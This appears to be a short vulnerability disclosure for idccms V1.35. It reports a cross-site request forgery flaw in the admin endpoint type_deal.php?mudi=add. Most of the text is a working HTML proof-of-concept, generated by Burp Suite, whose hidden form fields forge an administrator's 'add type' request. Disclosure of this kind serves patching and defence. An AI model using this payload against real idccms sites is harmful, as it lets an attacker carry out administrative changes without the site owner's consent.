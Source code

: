 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/type_deal.php?mudi=add

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/type_deal.php?mudi=add" method="POST">
      <input type="hidden" name="backURL" value="http%3A%2F%2F127.0.0.1%2Fadmin%2Ftype.php%3Fmudi%3Dmanage%26dataMode%3D%26dataModeStr%3D%26dataType%3DmoneyNote%26dataTypeCN%3D%25E4%25B8%258D%25E6%2589%25A3%25E6%25AC%25BE%25E8%25AF%25B4%25E6%2598%258E%26dataType2%3D%26dataID%3D0%26menuID%3D774" />
			<input type="hidden" name="dataType" value="moneyNote" />
			<input type="hidden" name="dataTypeCN" value="%E4%B8%8D%E6%89%A3%E6%AC%BE%E8%AF%B4%E6%98%8E" />
			<input type="hidden" name="dataID" value="0" />
			<input type="hidden" name="theme" value="cs" />
			<input type="hidden" name="rank" value="70" />
			<input type="hidden" name="x" value="61" />
			<input type="hidden" name="y" value="26" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

